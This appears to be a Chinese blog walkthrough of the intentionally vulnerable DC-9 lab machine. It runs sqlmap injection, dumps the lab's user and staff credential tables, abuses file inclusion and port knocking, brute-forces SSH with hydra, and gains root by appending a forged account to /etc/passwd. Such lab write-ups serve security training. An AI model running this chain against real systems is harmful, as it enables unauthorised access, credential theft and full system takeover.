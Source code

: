 ```yaml
---
title: DC-9复现
---
```

# DC-9复现

# 描述

> DC-9是另一个专门建造的易受攻击的实验室，旨在获得渗透测试领域的经验。
>
> 这个挑战的最终目标是获得根并阅读唯一的标志。
>
> Linux 技能和对 Linux 命令行的熟悉是必须的，对基本渗透测试工具的一些经验也是必须的。
>
> 对于初学者来说，谷歌可以提供很大的帮助，但你总是可以在@DCAU7发推文给我寻求帮助，让你再次前进。但请注意：我不会给你答案，相反，我会给你一个关于如何前进的想法。

# 信息收集

确定目标的ip以及开启的端口

![image-20221201165354852](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/image-20221201165354852.png)

发现有一个完整的表单，那就直接sqlmap爆破数据库

![image-20221201165637107](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/image-20221201165637107.png)

```bash
sqlmap -u "http://192.168.71.131/results.php"  --data "search=1" --dbs
```

爆出三个库

![image-20221201165842274](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/image-20221201165842274.png)

爆破表

```bash
sqlmap -u "http://192.168.71.131/results.php"  --data "search=1" -D users --tables
```

![image-20221201170044666](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/image-20221201170044666.png)

爆破列

```bash
sqlmap -u "http://192.168.71.131/results.php"  --data "search=1" -D users -T UserDetails --dump
```

```mysql
Database: users
Table: UserDetails
[17 entries]
+----+------------+---------------+---------------------+-----------+-----------+
| id | lastname   | password      | reg_date            | username  | firstname |
+----+------------+---------------+---------------------+-----------+-----------+
| 1  | Moe        | 3kfs86sfd     | 2019-12-29 16:58:26 | marym     | Mary      |
| 2  | Dooley     | 468sfdfsd2    | 2019-12-29 16:58:26 | julied    | Julie     |
| 3  | Flintstone | 4sfd87sfd1    | 2019-12-29 16:58:26 | fredf     | Fred      |
| 4  | Rubble     | RocksOff      | 2019-12-29 16:58:26 | barneyr   | Barney    |
| 5  | Cat        | TC&TheBoyz    | 2019-12-29 16:58:26 | tomc      | Tom       |
| 6  | Mouse      | B8m#48sd      | 2019-12-29 16:58:26 | jerrym    | Jerry     |
| 7  | Flintstone | Pebbles       | 2019-12-29 16:58:26 | wilmaf    | Wilma     |
| 8  | Rubble     | BamBam01      | 2019-12-29 16:58:26 | bettyr    | Betty     |
| 9  | Bing       | UrAG0D!       | 2019-12-29 16:58:26 | chandlerb | Chandler  |
| 10 | Tribbiani  | Passw0rd      | 2019-12-29 16:58:26 | joeyt     | Joey      |
| 11 | Green      | yN72#dsd      | 2019-12-29 16:58:26 | rachelg   | Rachel    |
| 12 | Geller     | ILoveRachel   | 2019-12-29 16:58:26 | rossg     | Ross      |
| 13 | Geller     | 3248dsds7s    | 2019-12-29 16:58:26 | monicag   | Monica    |
| 14 | Buffay     | smellycats    | 2019-12-29 16:58:26 | phoebeb   | Phoebe    |
| 15 | McScoots   | YR3BVxxxw87   | 2019-12-29 16:58:26 | scoots    | Scooter   |
| 16 | Trump      | Ilovepeepee   | 2019-12-29 16:58:26 | janitor   | Donald    |
| 17 | Morrison   | Hawaii-Five-0 | 2019-12-29 16:58:28 | janitor2  | Scott     |
+----+------------+---------------+---------------------+-----------+-----------+
```

同理爆破另一个库，其中的一个库的**Users**表爆出了admin的密码

![image-20221201170903369](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/image-20221201170903369.png)

**StaffDetails**表的内容

```mysql
Database: Staff
Table: StaffDetails
[17 entries]
+----+-----------------------+----------------+------------+---------------------+-----------+-------------------------------+
| id | email                 | phone          | lastname   | reg_date            | firstname | position                      |
+----+-----------------------+----------------+------------+---------------------+-----------+-------------------------------+
| 1  | marym@example.com     | 46478415155456 | Moe        | 2019-05-01 17:32:00 | Mary      | CEO                           |
| 2  | julied@example.com    | 46457131654    | Dooley     | 2019-05-01 17:32:00 | Julie     | Human Resources               |
| 3  | fredf@example.com     | 46415323       | Flintstone | 2019-05-01 17:32:00 | Fred      | Systems Administrator         |
| 4  | barneyr@example.com   | 324643564      | Rubble     | 2019-05-01 17:32:00 | Barney    | Help Desk                     |
| 5  | tomc@example.com      | 802438797      | Cat        | 2019-05-01 17:32:00 | Tom       | Driver                        |
| 6  | jerrym@example.com    | 24342654756    | Mouse      | 2019-05-01 17:32:00 | Jerry     | Stores                        |
| 7  | wilmaf@example.com    | 243457487      | Flintstone | 2019-05-01 17:32:00 | Wilma     | Accounts                      |
| 8  | bettyr@example.com    | 90239724378    | Rubble     | 2019-05-01 17:32:00 | Betty     | Junior Accounts               |
| 9  | chandlerb@example.com | 189024789      | Bing       | 2019-05-01 17:32:00 | Chandler  | President - Sales             |
| 10 | joeyt@example.com     | 232131654      | Tribbiani  | 2019-05-01 17:32:00 | Joey      | Janitor                       |
| 11 | rachelg@example.com   | 823897243978   | Green      | 2019-05-01 17:32:00 | Rachel    | Personal Assistant            |
| 12 | rossg@example.com     | 6549638203     | Geller     | 2019-05-01 17:32:00 | Ross      | Instructor                    |
| 13 | monicag@example.com   | 8092432798     | Geller     | 2019-05-01 17:32:00 | Monica    | Marketing                     |
| 14 | phoebeb@example.com   | 43289079824    | Buffay     | 2019-05-01 17:32:02 | Phoebe    | Assistant Janitor             |
| 15 | scoots@example.com    | 454786464      | McScoots   | 2019-05-01 20:16:33 | Scooter   | Resident Cat                  |
| 16 | janitor@example.com   | 65464646479741 | Trump      | 2019-12-23 03:11:39 | Donald    | Replacement Janitor           |
| 17 | janitor2@example.com  | 47836546413    | Morrison   | 2019-12-24 03:41:04 | Scott     | Assistant Replacement Janitor |
+----+-----------------------+----------------+------------+---------------------+-----------+-------------------------------+
```

# 登录后台

![image-20221201170938946](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/image-20221201170938946.png)

脚标处有一句 `File does not exist `，判断是不是存在本地文件包含漏洞

验证存在

![image-20221201171921652](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/image-20221201171921652.png)

然后要利用到端口敲门：

原理简单分析：
端口敲门服务，即：knockd服务。该服务通过动态的添加iptables规则来隐藏系统开启的服务，使用自定义的一系列序列号来“敲门”，使系统开启需要访问的服务端口，才能对外访问。不使用时，再使用自定义的序列号来“关门”，将端口关闭，不对外监听。进一步提升了服务和系统的安全性。
　　
简单来说就是：知道它的自定义端口后，依次对其进行敲门，然后就可以开启ssh服务从而进行连接了。它的默认配置文件为：/etc/knockd.conf

![image-20221201172310863](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/image-20221201172310863.png)

```bash
nmap -p 7469 192.168.71.131
nmap -p 8475 192.168.71.131
nmap -p 9842 192.168.71.131
```

执行完以上命令后再查看22端口的ssh服务，就看到是已经打开了

```bash
nmap -p 22 192.168.71.131
```

![image-20221201172545368](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/image-20221201172545368.png)

利用前面信息收集到的员工账号密码做一个字典，然后进行爆破

# ssh登录

```bash
hydra -L dc9_users.txt -P dc9_pass.txt 192.168.71.131 ssh
```

![image-20221201173634705](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/image-20221201173634705.png)

爆破出三个账号密码，随便一个账号登录上去，发现我们现在只是爆破出了部分账户而已

![image-20221201174103178](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/image-20221201174103178.png)

利用su命令切换我们爆破出的用户，发现在janitor的目录下有一个文件夹里记录了其他用户的密码

![image-20221201174344319](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/image-20221201174344319.png)

那我们直接加到我们的密码本里，再爆破一次，果然爆出了一个新的

![image-20221201174707763](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/image-20221201174707763.png)

登录到fredf，发现可以执行 `sudo -l`可以看到该账号可以运行root权限的test文件，而且不需要密码

![image-20221201174840644](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/image-20221201174840644.png)

然后找到了这个文件的源码

![image-20221201175410975](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/image-20221201175410975.png)

经过查看发现这个py文件的大致内容就是将参数1的内容写入参数2中，接下来尝试进行提权

# 提权

```bash
openssl passwd -1 -salt admin 111111
echo 'admin:$1$admin$2WRLhTGcIMgZ7OhwCpREK1:0:0::/root:/bin/bash' >> /tmp/aaa
sudo /opt/devstuff/dist/test/test /tmp/aaa /etc/passwd
su admin
cd /root
cat theflag.txt 
```

![image-20221201180059726](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/image-20221201180059726.png)

- [参考博客]([(19条消息)) vulnhub靶机DC-9渗透测试_Long_gone的博客-CSDN博客](https://blog.csdn.net/Long_gone/article/details/104049869?ops_request_misc=%7B%22request%5Fid%22%3A%22166988492316782412557232%22%2C%22scm%22%3A%2220140713.130102334..%22%7D&request_id=166988492316782412557232&biz_id=0&spm=1018.2226.3001.4187))
